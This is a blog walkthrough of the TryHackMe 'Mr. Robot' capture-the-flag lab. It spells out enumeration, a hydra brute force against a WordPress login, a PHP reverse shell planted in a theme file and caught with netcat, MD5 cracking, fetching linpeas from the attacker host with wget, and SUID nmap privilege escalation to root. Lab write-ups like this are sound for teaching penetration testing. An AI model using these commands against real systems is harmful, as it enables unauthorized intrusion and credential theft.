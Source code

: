 ```yaml
---
layout: post
title: " Mr. Robot - TryHackMe"
date: 2020-07-12
ctf: true
excerpt: "Walkthrough for Mr. Robot on TryHackme"
tags: [Mr. Robot, TryHackMe]
comments: false
---
```


Below are the steps to get the 3 flags on the Mr. Robot box on [TryHackMe](https://www.tryhackme.com).

First, let's run nmap with **nmap -sC -sV -O -T4 [machine ip]**. This will return ssh which is marked as closed, and both ports 80 and 443 which are open.

![Mr. Robot 1](/assets/img/MrRobot1.png)

Launching both sites leads to the same terminal window which seems to have some of the propaganda from fsociety. Let's use gobuster to enumerate the webserver with **gobuster dir -u http://[machine ip] -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt**.

After a bit, several interesting results come up as shown below.

![Mr. Robot 2](/assets/img/MrRobot2.png)

The hint for the first question also mentions **robots**, so let's look at **http://[machine ip]/robots.txt**. This leads to the following:

![Mr. Robot 3](/assets/img/MrRobot3.png)

Let's visit key-1-of-3.txt by going to **http://[machine ip]/key-1-of-3.txt**. This is where you will find the first key to this challenge.

![Mr. Robot 3 key1](/assets/img/MrRobot4.png)

Next, let's go to **http://[machine ip]/fsocity.dic**. This is a dictionary file with a huge list of words that may prove useful later on. The other useful thing we found was that this appears to be a WordPress site, so let's go to **http://[machine ip]/wp-login**. This brings you to a WordPress login page as expected.

![Mr. Robot 5](/assets/img/MrRobot5.png)

WordPress contains a pretty poor security practice where it will tell you if a username does not exist. For example, I attempted with the user admin, and received this error message.

![Mr. Robot 6](/assets/img/MrRobot6.png)

In a real world scenario, you would probably create a list of users with cewl based off of the website or use some other dictionary file, but in this case, I guessed a few characters from the television series, which led to **Elliot** being uncovered as the login name.

![Mr. Robot 7](/assets/img/MrRobot7.png)

Now that we had a username to login with, let's use hydra to brute force the password. The fsocity.dic file we saved earlier should be a good place to start, however, it has over 800,000 records in it. I assumed there were some duplicates, so I used sort and uniq to make it a more manageable list with. The command to run is **sort fsocity.dic\|uniq > UniquePasswords.txt**. This reduced the list down to around 11,000 unique entries and saved it to UniquePasswords.txt, which will run much quicker when brute forcing passwords. 

![Mr. Robot 8](/assets/img/MrRobot8.png)

The command to brute force in hydra is **hydra -l Elliot -P ~/Downloads/UniquePasswords.txt [machine ip] -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'**. This will return Elliot's password.

![Mr. Robot 9](/assets/img/MrRobot9.png)

Now that we have Elliot's password, let's login to the WordPress site. Once here, let's upload a reverse PHP shell. The one I recommend using is from [PentestMonkey](http://pentestmonkey.net/tools/web-shells/php-reverse-shell). Adjust the IP/Port to reflect your attacker machine's IP and the port you wish to connect with and save the shell. Next, let's click on **Appearance** followed by **Editor** on the left hand side. Choose one of the existing php files (I used **404.php**) to view it's contents, delete the contents of this file, and paste the reverse shell into that file.

![Mr. Robot 10](/assets/img/MrRobot10.png)

When done, click on **Update File** at the bottom of the file to save it. 

![Mr. Robot 11](/assets/img/MrRobot11.png)

On your attacker pc, run **nc -nvlp [port number]** where port number is the one selected in the php reverse shell earlier. Now, try to navigate to a random page to trigger a 404 error, which should launch the reverse shell. 

![](/assets/img/MrRobot12.png)

![Mr. Robot 13](/assets/img/MrRobot13.png)

We now have a reverse shell. **whoami** reveals we are running as user **daemon** in the root directory. Let's navigate to home with **cd home** and run **ls** to view it's contents. There is a **robot** user folder here. Let's run **cd robot** followed by **ls** and we will see **key-2-of-3.txt** and **password.raw-md5**. **cat key-2-of-3.txt** will give you the 2nd key to this challenge, but we are not able to access it as daemon.

![Mr. Robot 14](/assets/img/MrRobot14.png)

Let's **cat** **password.raw-md5** and we will see that we have the hash for robot. 

![Mr. Robot 15](/assets/img/MrRobot15.png)

Let's copy and save this so we can crack it with john. Once you saved this locally (I saved it to a file called **robothash.txt**), run the following command: **john robothash.txt --format="Raw-MD5" -wordlist=/usr/share/wordlists/rockyou.txt**. Within a few moments you will crack this password. Raw-MD5 was selected as the format based on the extension in the file the hash came from (password.raw-md5).

![Mr. Robot 16](/assets/img/MrRobot16.png)

Since ssh is blocked, let's try to run **su robot** to swap from daemon to the robot user . We aren't able to because we're not running a TTY terminal.

![Mr. Robot 17](/assets/img/MrRobot17.png)

Let's run **python -c 'import pty; pty.spawn("/bin/sh")'** to upgrade our shell and run **su robot** again. Now we are able to swap over to robot with the password we uncovered with john.

![Mr. Robot 18](/assets/img/MrRobot18.png)

Let's run **cat key-2-of-3.txt** and we are able to uncover this flag.

![Mr. Robot 19](/assets/img/MrRobot19.png)

At this point, we need to enumerate to figure out how we are going to escalate privileges to root. On our attacker machine, lets serve up a python server with **python3 -m http.server**. Next, on our victim machine, run **cd /tmp** followed by **wget http://[your attacker ip]:8000/linpeas.sh** to download linpeas to the tmp directory of our victim. Next, run **chmod 777 linpeas.sh** to make it executable.

![Mr. Robot 20](/assets/img/MrRobot20.png)

Next, run **./linpeas.sh** to start enumerating the host. Partially through the script there is a list of SUID programs, and **nmap** stands out.

![Mr. Robot 21](/assets/img/MrRobot21.png)

Let's navigate to that folder with **cd /usr/local/bin** and run **nmap --help**. This is an older version of nmap (3.81), and it has an interactive mode that can be ran with the --interactive flag. 

![Mr. Robot 22](/assets/img/MrRobot22.png)

Let's run **nmap --interactive**. This is an old version of nmap, and this can be utilized to get a root shell since it is running as root due to the SUID flag. The command to run once in interactive mode is **!sh**

![Mr. Robot 23](/assets/img/MrRobot23.png)

Let's run **cd /root** followed by **ls**. You will see the 3rd key file there. Run **cat key-3-of-3.txt** to get the final key!

![Mr. Robot 24](/assets/img/MrRobot24.png)
